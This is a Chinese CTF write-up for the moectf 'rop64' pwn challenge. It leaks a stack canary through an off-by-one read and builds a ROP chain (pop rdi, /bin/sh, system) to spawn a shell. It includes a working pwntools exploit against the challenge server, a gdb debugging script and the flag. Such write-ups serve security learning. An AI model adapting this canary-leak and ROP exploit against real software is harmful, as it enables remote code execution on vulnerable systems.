

# rop64

rop64比rop32简单是怎么回事？我被一个细节卡了几个小时又是怎么回事？

-   Arch:     amd64-64-little
    <Br>RELRO:    Partial RELRO
    <bR>Stack:    Canary found
    <br>NX:       NX enabled
    <Br>PIE:      No PIE (0x400000)

canary不是很妙，要看看程序内部有没有办法绕过canary。



我最开始被这里卡了一下。我以为两个read会接着读取，比如第一次read读取了1个字符，第二个read就从第二个字符对应的指针开始读取。但是我错了。举个例子，第一次读取a，第二次读取b，printf输出的结果是b而不是ab。那应该很简单了，第一次read溢出到canary的\0字符让printf把canary一起打印出来，第二次read带上canary执行rop链。先把最终成功的exp放出来。

```python
from pwn import *
payload=b'a'*0x29
p=remote("124.223.158.81",27004)
pop_rdi=0x00000000004011de 
bin_sh=0x0000000000404058
system_addr=0x00401284
p.sendafter("Go Go Go!!!\n",payload)
p.recvuntil(payload)
canary=u64(p.recv(7).rjust(8,b'\x00'))
p.recv()
payload=b'a'*0x28+p64(canary)+b'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_addr)
p.send(payload)
p.interactive()
```

注意第一个payload。虽然在上面的截图中可以算出local_38与canary的距离为0x38-0x10=0x28,但是我们需要发送0x29个a，因为这个距离包括了\0，如果只发送0x28个a是不会覆盖掉\0了，也就没办法打印出canary了。或者payload使用0x28个a，然后发送时使用sendline。因为sendline会在发送的payload末尾加上\n，相当于发送了0x29个字符，也能覆盖掉\0打印出canary。这也意味着canary只有7位，recv只用接收7位。

最后是“简单”的rop链。需要的传参gadget程序里可以直接找到，就在gadget函数下。不知道ida是不是这样，但ghidra玩家们注意ghidra默认不会反编译完整gadget剩下的部分，所以需要手动选择未被编译的部分然后右键进行编译。有个很坑的地方是啥呢，这道题的system_addr不能用system的plt入口表，要用main中调用system的那段指令。我真的疑惑了啊，我也不知道为什么，调试出来的。附调试脚本。

```python
from pwn import *
p=process("gdb")
last_command=''
def communicate(command,prefix="(gdb)"):
    global last_command
    last_command=command
    p.sendlineafter(prefix,command)
def print_content(line):
    global last_command
    content=p.recvlines(line,timeout=0.5)
    for i in content:
        print(f"{last_command}:{i.decode()}")
def check_stack(step):
    for i in range(step):
        communicate("s")
        communicate("i s")
        print_content(4)
def check_registers():
    communicate("i r")
    print_content(15)
pop_rdi=0x00000000004011de 
bin_sh=0x0000000000404058
system_addr=0x4040b4
communicate("file ./pwn")
communicate('b *0x00401271')
communicate('run')
payload=b'a'*0x29
communicate(payload,"Go Go Go!!!\n")
p.recvuntil(payload)
canary=u64(p.recv(7).rjust(8,b'\x00'))
p.recv()
payload=b'a'*0x28+p64(canary)+b'a'*8+p64(pop_rdi)+p64(bin_sh)+p64(system_addr)
p.send(payload)
check_stack(5)
check_registers()
```

花了很多时间在pwntools怎么和gdb交互，pwntools自带的gdb模块我没法用。也尝试过搜subprocess，都不行。最后发现直接process gdb就行了……浪费我几个小时。从这个调试脚本我发现pop_rdi成功执行，bin_sh成功传入rdi，那只有可能是system_addr有问题了。还记得main函数调用过system吗，直接把调用的地址抄下来就是了。这题怎么这么怪，我也是笨，跟这个地址死磕了几个小时，plt表，plt表上一个地址，got表（很难揣测试这个地址的我的精神状态）这些都试了，就是没想到变通一下。

- ### Flag
  > moectf{m0m_1_c4n_d0_20p_4nd_8yp455_c4n42y_0n_4_64817_m4ch1n3}